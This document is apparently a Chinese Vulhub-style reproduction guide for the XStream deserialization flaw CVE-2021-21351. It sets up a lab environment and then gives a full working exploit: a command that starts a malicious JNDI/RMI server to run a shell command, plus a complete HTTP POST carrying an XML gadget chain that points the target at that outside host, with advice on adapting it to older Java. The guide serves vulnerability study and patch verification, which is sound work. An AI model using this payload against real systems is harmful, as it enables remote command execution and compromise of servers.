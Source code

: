 # XStream 反序列化命令执行漏洞 CVE-2021-21351

## 漏洞描述

XStream是一个轻量级、简单易用的开源Java类库，它主要用于将对象序列化成XML（JSON）或反序列化为对象。

XStream 在解析XML文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用`javax.naming.ldap.Rdn$RdnEntry`及`javax.sql.rowset.BaseRowSet`构造JNDI注入，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## 环境搭建

Vulhub执行如下命令启动一个Springboot + XStream 1.4.15的环境：

```
docker-compose up -d
```

环境启动后，我们向`http://your-ip:8080`发送一个正常的XML数据包，将会得到预期返回：

![image-20220302230633143](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022306230.png)

## 漏洞复现

由于目标环境Java版本高于8u191，故我们需要借助[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)中给出的方法，使用`org.apache.naming.factory.BeanFactory`加EL表达式注入的方式来执行任意命令。

使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit/)启动恶意JNDI服务器：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/awesome_poc" -A 192.168.174.128
```

![image-20220302230916698](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022309839.png)

根据Java版本，使用上图中基于SpringBoot利用链的RMI地址作为`<dataSource>`的值，构造POC如下：

```
POST / HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3184

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://192.168.174.128:1099/tznmqn</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

其中，evil-ip是恶意RMI服务器的地址。然后，进入目标容器内，可见`touch /tmp/awesome_poc`已成功执行：

![image-20220302231116882](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022311937.png)

在实战中，如果目标Java版本较低，POC需要做修改，将其中的`<__overrideDefaultParser>false</__overrideDefaultParser>`改成`<__useServicesMechanism>false</__useServicesMechanism>`即可。

